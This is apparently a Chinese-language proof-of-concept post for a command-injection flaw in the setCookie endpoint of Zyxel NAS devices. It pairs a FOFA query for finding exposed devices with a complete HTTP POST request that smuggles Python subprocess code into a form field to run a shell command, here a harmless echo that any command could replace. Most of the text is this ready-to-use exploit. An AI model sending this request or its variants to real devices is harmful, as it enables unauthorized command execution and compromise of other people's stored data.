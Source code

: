 **fofa**

```
body="'res/i18n/nls/"
```

**一、漏洞简述**

Zyxel-NAS是一款出色的网络附加存储设备,为家庭和中小企业用户提供高性能、高可靠性的数据存储解决方案。其支持灵活的RAID配置,可为用户提供强大的数据冗余和扩展能力。内置的多媒体服务器功能,让用户能够轻松共享和管理照片、音乐、视频等文件。此外,Zyxel-NAS还提供了远程访问和自动备份等贴心功能,帮助用户随时随地管理和保护重要数据。凭借其出色的性能、丰富的功能和节能设计,Zyxel-NAS无疑是家庭和中小企业数据存储的优质选择。无论您是需要大容量的数据存储、还是希望享受多媒体分享的便利,Zyxel-NAS都能满足您的各项需求。其接口setcokie存在命令执行漏洞，攻击者可通过该漏洞获取系统命令权限。

**二、漏洞检测poc**

```yaml
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Content-Length: 240

------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="c0"

storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("echo HelloWorldTest", shell=True)#
------WebKitFormBoundarygcflwtei--
```

